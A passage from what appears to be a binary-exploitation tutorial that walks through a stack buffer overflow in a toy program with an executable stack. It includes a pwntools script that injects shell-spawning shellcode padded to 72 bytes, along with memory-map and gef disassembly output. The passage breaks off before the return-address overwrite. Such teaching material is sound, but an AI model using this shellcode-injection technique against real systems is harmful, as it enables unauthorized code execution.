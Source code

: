 ```python
0x00007ffff7f97000 0x00007ffff7f9a000 0x00000000001c1000 rw- /usr/lib/libc-2.32.so
0x00007ffff7f9a000 0x00007ffff7fa0000 0x0000000000000000 rw- 
0x00007ffff7fca000 0x00007ffff7fce000 0x0000000000000000 r-- [vvar]
0x00007ffff7fce000 0x00007ffff7fd0000 0x0000000000000000 r-x [vdso]
0x00007ffff7fd0000 0x00007ffff7fd2000 0x0000000000000000 r-- /usr/lib/ld-2.32.so
0x00007ffff7fd2000 0x00007ffff7ff3000 0x0000000000002000 r-x /usr/lib/ld-2.32.so
0x00007ffff7ff3000 0x00007ffff7ffc000 0x0000000000023000 r-- /usr/lib/ld-2.32.so
0x00007ffff7ffc000 0x00007ffff7ffd000 0x000000000002b000 r-- /usr/lib/ld-2.32.so
0x00007ffff7ffd000 0x00007ffff7fff000 0x000000000002c000 rw- /usr/lib/ld-2.32.so
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rwx [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 --x [vsyscall]

```

As we can see, the stack has permission `rwx`. That means that we can read, write, and execute to it. So let's set up our exploit

```python
from pwn import *

e = context.binary = ELF("./bof")
p = process(e.path)
libc = e.libc

shellcode = asm(shellcraft.sh())
payload = shellcode
payload += b"A"*(72 - len(shellcode))

p.sendline(payload)
p.interactive()
```

As we've set the `context.binary`, pwntools takes care of the architecture and operating system \(you can check what shellcode options there are here [https://docs.pwntools.com/en/stable/shellcraft.html](https://docs.pwntools.com/en/stable/shellcraft.html)\)

We then send in \(72 - the length of our shellcode\) times the character A. Now, we just need to find the address for where our shellcode is stored. gef can help with that

```c
gef➤  r
Starting program: ./bof 
What are you going to say?
AAAAAAAA
Thank you, have a nice day!
[Inferior 1 (process 63337) exited normally]
gef➤  disas main
Dump of assembler code for function main:
   0x0000000000401159 <+0>:	push   rbp
   0x000000000040115a <+1>:	mov    rbp,rsp
   0x000000000040115d <+4>:	sub    rsp,0x40
   0x0000000000401161 <+8>:	lea    rdi,[rip+0xea4]        # 0x40200c
   0x0000000000401168 <+15>:	call   0x401030 <puts@plt>
   0x000000000040116d <+20>:	lea    rax,[rbp-0x40]
   0x0000000000401171 <+24>:	mov    rdi,rax
   0x0000000000401174 <+27>:	mov    eax,0x0
   0x0000000000401179 <+32>:	call   0x401050 <gets@plt>
   0x000000000040117e <+37>:	lea    rdi,[rip+0xea2]        # 0x402027
   0x0000000000401185 <+44>:	call   0x401030 <puts@plt>
   0x000000000040118a <+49>:	mov    eax,0x0
   0x000000000040118f <+54>:	leave  
   0x0000000000401190 <+55>:	ret    
End of assembler dump.
gef➤  b *main+55
Breakpoint 1 at 0x401190
gef➤  r
```